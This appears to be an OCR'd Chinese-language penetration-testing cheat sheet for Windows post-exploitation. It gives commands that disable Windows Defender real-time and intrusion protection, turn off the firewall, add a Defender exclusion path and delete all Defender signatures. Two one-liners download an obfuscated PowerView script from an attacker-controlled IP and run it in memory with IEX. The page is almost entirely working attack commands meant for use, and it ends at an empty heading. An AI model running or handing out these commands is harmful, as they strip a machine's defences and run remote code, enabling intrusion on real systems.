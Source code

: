 关闭wd
```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose

Set-MpPreference -DisableIOAVProtection $true

Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true
```


关闭防火墙
```
NetSh Advfirewall set allprofiles state off
```

查看防火墙
```
netsh advfirewall show currentprofile
```


# 排除项

获取
```
Get-MpPreference | select Exclusion*
```

设置
```
Set-MpPreference -ExclusionPath C:\windows\tasks
```


# 启用wd，删除所有病毒签名
```
"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

# powershell脚本加载

Proxy-aware (加载到内存后直接使用，不会下载到本地)
```
IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.7/PowerView.obs.ps1')
```

Non-proxy aware
```
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://10.10.16.7/PowerView.obs.ps1',$false);$h.send();iex $h.responseText
```

# 下载执行exe程序
